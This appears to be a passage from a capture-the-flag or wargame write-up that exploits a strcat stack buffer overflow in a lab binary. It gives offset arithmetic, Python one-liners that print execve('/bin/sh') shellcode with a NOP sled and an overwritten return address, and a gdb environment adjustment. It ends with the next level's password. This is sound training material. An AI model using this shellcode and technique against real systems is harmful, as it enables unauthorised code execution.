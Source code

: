 so we will concatenate 'our inputs' with the already existing string of `"Goedemiddag! "`

*strcat* has the space of 0x48 and there's already `"Goedemiddag! "` there 13 chars so if
add our input which can be as big as 0x48 so yep we can overflow here by 13 bytes

so we should have 0x28 for the first input,

```py
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*12'
```

after all we need to write 0x48+0x4+0x4 because we need to overwrite old ebp and then return value
that is why 0x4+0x4, so we *strcat* need to write 80-13=our combined inputs


13 + I1 + I2 = 80; I1 will be 40, so I2 needs to be at least 27

```py
python -c 'print "A"*23 + "\x40\xf6\xff\xbf"'
```

well this gave me segfault I believe because when we are in gdb we have different environment variables
you can check them in source folder for now, so I'll try to find the difference and start my shell
with `nop`'s so even if I missed the address it would not be problem



```py
python -c 'print "\x90"*12 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
```

```py
python -c 'print "A"*23 + "\x53\xf6\xff\xbf"'
```

you may be wondering why 53 and not 40 well, I found out that in gdb we have 19 characters more `LINES=63` and `COLUMNS=226`
so I add the value 19 to 0x40 to 0x53

![](./pics/27.png)

#### Password for bonus3
```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```